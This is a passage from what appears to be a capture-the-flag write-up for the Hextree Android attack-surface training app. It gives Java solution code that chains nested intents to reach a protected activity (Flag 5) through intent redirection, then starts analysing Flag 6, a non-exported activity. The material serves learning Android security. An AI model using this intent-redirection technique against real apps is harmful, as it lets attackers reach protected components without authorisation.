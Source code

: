 Here the code is trying to get data from intent which has intent as extra data in it when intent is unpacked the activity will execute it for us using `startActivity()`

- `intent2` must have an int extra `"return"` with value `42`. 
- `intent2` must have a nested parcelable intent under `"nextIntent"`.
- `nextIntent` must have a string extra `"reason"` with value `"back"`.

`intet -> intent2("return",42) -> intent3("reason", "back)`

#### Solution
```java
Intent intent3 = new Intent();  
intent3.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent3.putExtra("reason","back");  
  
Intent intent2 = new Intent();  
intent2.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent2.putExtra("return", 42);  
intent2.putExtra("nextIntent", intent3);  
  
Intent intent = new Intent();  
intent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent.putExtra("android.intent.extra.INTENT", intent2);  

startActivity(intent);
```

### Flag 6
#### Code analysis
```java
public void onCreate(Bundle bundle) {
        if ((getIntent().getFlags() & 1) != 0) {
            this.f.addTag("FLAG_GRANT_READ_URI_PERMISSION");
            success(this);
        }
    }
```
I
It's simple, Just sending an intent with flag `"FLAG_GRANT_READ_URI_PERMISSION"` .... Right?

```xml
<activity
    android:name="io.hextree.attacksurface.activities.Flag6Activity"
    android:exported="false"/>
```

but the activity is not exported so you cant talk to it directly 
